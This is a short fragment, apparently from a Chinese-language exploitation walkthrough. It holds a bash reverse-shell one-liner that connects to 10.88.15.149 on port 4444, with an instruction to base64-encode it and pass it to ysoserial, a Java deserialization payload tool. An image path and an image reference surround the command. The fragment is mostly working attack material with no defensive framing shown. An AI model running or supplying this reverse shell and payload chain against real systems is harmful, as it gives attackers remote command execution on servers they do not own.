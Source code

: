 ![22-10.png](22-10.png)

```bash
bash -i >& /dev/tcp/10.88.15.149/4444 0>&1
```

把这个 bash 指令 base64 编码, 然后将编码后的结果传进利用工具:

> ysoserial 地址: [Github](https://github.com/frohoff/ysoserial)
